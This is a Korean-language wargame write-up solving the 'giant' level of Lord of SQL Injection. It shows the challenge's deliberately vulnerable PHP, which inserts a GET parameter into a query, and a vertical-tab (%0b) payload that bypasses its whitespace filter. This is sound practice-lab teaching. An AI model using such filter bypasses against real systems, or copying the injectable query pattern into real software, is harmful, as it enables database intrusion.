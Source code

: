 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - giant 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


다음 문제는 `giant` 이다.  

갑자기 소스코드가 너무 간단해져서 당황했다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------
query : select 1234 fromprob_giant where 1
----------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

앞의 문제들에 있었던 필터링들이 싹 사라졌다.  

또 `pw`나 `no`를 입력하는게 아니라 이번엔 `shit`라는 값을 넘겨주어야 하는데, 이 값이 `from`과 `prob_giant` 즉, `table 명` 사이에 있다.  

때문에 아무런 값이 없을 경우, `fromprob_giant`가 되어 제대로 쿼리가 실행되지 않는다.  

문제를 풀기 위해서는 `$result[1234]`가 있으면 된다.  

문제의 쿼리에서 `select 1234`라고 되어 있으니, 해당 쿼리만 제대로 실행되도록 만들어 주면 될 것 같다.  

그러기 위해서는 `공백`이 필요하다.  

그런데 필터링에 `공백`, `\n`, `\r`, `\t`가 있어서, 어지간한 공백 문자로는 공백을 만들어낼 수 없다.  

아스키코드표를 자세히 보면 `0x0b` 값을 보면 `VT` 혹은 `Vertical Tab`이라는 문자가 있다.  

반면 우리가 흔히 알고있는 `0x09`는 `HT` 혹은 `Horizontal Tab`이다.  

`0x09`가 가로로 탭을 하는 것이라면, `0x0b`는 세로로 탭을 하는 것이라고 생각하면 될 것 같다.  

그런데 이 `VT`로 `whitespace`에 대한 필터링을 우회할 수 있다.  

`VT`를 값으로 넘겨주기 위해 URL에 `?shit=%0b`를 입력 해 보았다.  

```php
------------------------------------------------------------
query : select 1234 fromprob_giant where 1
------------------------------------------------------------

GIANT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

성공적으로 문제를 풀 수 있었다.  

`GIANT Clear!!`
